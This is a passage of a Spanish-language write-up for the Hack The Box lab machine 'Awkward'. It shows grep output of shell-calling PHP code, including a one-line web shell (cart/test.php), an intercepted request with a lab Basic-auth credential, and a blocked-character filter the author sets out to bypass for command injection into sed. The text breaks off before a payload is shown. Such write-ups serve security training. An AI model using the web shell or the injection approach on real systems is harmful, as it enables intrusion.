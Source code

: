 ```null
bean@awkward:/var/www/store$ grep -ri "system("
cart_actions.php:            system("echo '***Hat Valley Cart***' > {$STORE_HOME}cart/{$user_id}");
cart_actions.php:        system("head -2 {$STORE_HOME}product-details/{$item_id}.txt | tail -1 >> {$STORE_HOME}cart/{$user_id}");
cart_actions.php:        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
cart/test.php:system($_REQUEST['cmd']);
```

En este caso, se puede tratar de inyectar comandos en la función ```sed```. Lo primero es añadir un producto de la tienda a la cesta

<img src="/writeups/assets/img/Awkward-htb/10.png" alt="">

Intercepto con ```BurpSuite``` la petición al eliminarlo

```null
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
Content-Length: 49
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://store.hat-valley.htb
Referer: http://store.hat-valley.htb/cart.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

item=1&user=a03e-e3bf-4d6-0108&action=delete_item
```

Inyecto el comando, pero antes hay que tener en cuenta que ciertos caracteres están restringidos

```null
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
    $item_id = $_POST['item'];
    $user_id = $_POST['user'];
    $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!
```

También hay que burlar la validación del item
